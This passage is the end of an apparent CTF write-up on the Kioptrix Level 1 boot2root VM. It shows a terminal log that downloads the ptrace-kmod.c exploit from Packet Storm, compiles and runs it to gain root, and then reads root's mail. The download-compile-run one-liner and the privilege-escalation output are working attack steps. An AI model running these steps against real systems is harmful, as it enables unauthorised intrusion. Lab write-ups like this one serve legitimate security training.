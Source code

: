 ```
bash-2.05$ 
-exploits/ptrace-kmod.c ; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; et/0304 
--06:07:58--  https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
           => `ptrace-kmod.c'
Connecting to dl.packetstormsecurity.net:443... connected!
HTTP request sent, awaiting response... 200 OK
Length: 3,921 [text/x-csrc]

    0K ...                                                   100% @   3.74 MB/s

06:07:59 (3.74 MB/s) - `ptrace-kmod.c' saved [3921/3921]

[+] Attached to 6431
[+] Waiting for signal
[+] Signal caught
[+] Shellcode placed at 0x4001189d
[+] Now wait for suid shell...
whoami ; id
root
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
head -n 15 /var/mail/root
From root  Sat Sep 26 11:42:10 2009
Return-Path: <root@kioptix.level1>
Received: (from root@localhost)
	by kioptix.level1 (8.11.6/8.11.6) id n8QFgAZ01831
	for root@kioptix.level1; Sat, 26 Sep 2009 11:42:10 -0400
Date: Sat, 26 Sep 2009 11:42:10 -0400
From: root <root@kioptix.level1>
Message-Id: <200909261542.n8QFgAZ01831@kioptix.level1>
To: root@kioptix.level1
Subject: About Level 2
Status: O

If you are reading this, you got root. Congratulations.
Level 2 won't be as easy...
```

Great success! The initial foothold worked perfectly and the modifications we made to the script immediately performed a privilege escalation exploit resulting in us gaining a root shell.

# [](#header-1)Conclusion

The Kioptrix series of Boot2Root VMs will always hold a special place in my heart for being the VMs that got me in to CTFs in the first place. I can say that without a doubt Kioptrix Level 1 and 2 has shaped my career and skillset in an enormous way.

Kioptrix Level 1 is a bit simple given the ability to compile an initial exploit that automatically performs a privilege escalation exploit, and I feel like Kioptrix 2 is a bit more interesting due to the inclusion of a web application component but I still wholeheartedly recommend this VM to any newbies.